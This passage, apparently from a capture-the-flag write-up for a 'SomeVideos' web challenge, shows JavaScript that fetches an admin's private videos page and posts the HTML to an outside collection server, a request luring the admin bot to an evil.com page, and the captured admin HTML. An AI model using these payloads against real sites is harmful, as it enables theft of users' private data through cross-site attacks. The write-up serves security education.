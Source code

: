 #### 3. The Real Exploit Logic

In our case, we'll just fetch the administrators personal `videos` page and send it to our server:

```javascript
fetch('https://en71jkw9fg9w2.x.pipedream.net/?loaded')

fetch('https://somevideos.appsecil.ctf.today/videos/').then(function (response) {
	// The API call was successful!
	return response.text();
}).then(function (html) {
	// This is the HTML from our response as a text string
	fetch('https://en71jkw9fg9w2.x.pipedream.net/?videos', {
    method: 'post',
    body: html
  })
}).catch(function (err) {
	// There was an error
	fetch('https://en71jkw9fg9w2.x.pipedream.net/?error=' + err)
});
```

#### 4. Luring the Admin

We'll just use the commented-out API that we've seen before:

```javascript
fetch("/videos/listing-request", {
    method: 'POST',
    headers: {
      'Content-Type': 'application/x-www-form-urlencoded'
    },
    body: new URLSearchParams({
      csrf: 'ELT+o9BwjBfvY4lpXg8SYQzNtlAJP8Fs6POEdTC9ZfA=',
      url: 'http://evil.com/some.html'
    })
  });
```

#### 5. The Reward

After a few seconds, we get a hit on our server with the admin's personal video list:

```html
<!DOCTYPE html>
<html>
  <head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>SomeVideos</title>
    <link rel="stylesheet" href="//cdn.jsdelivr.net/npm/bulma@0.9.1/css/bulma.min.css">
  </head>
  <body>
    <nav class="navbar is-dark">
      <div class="container">
        <div class="navbar-brand"><a class="navbar-item" href="/">SomeVideos</a><a class="navbar-burger burger" data-target="#navbar-nain"><span></span><span></span><span></span></a></div>
        <div class="navbar-menu" id="navbar-nain">
          <div class="navbar-end">
            <div class="navbar-item has-dropdown is-hoverable"><a class="navbar-link">admin</a>
              <div class="navbar-dropdown"><a class="navbar-item" href="/videos">Your videos</a>
                <hr class="navbar-divider">
                <div class="navbar-item">
                  <form action="/logout" method="POST">
                    <input type="hidden" name="csrf" value="mRoLB/WcyGN6xCBOyOXOus1Y8ZyeFI7E+NeE6AdK2LI=">
                    <div class="field">
```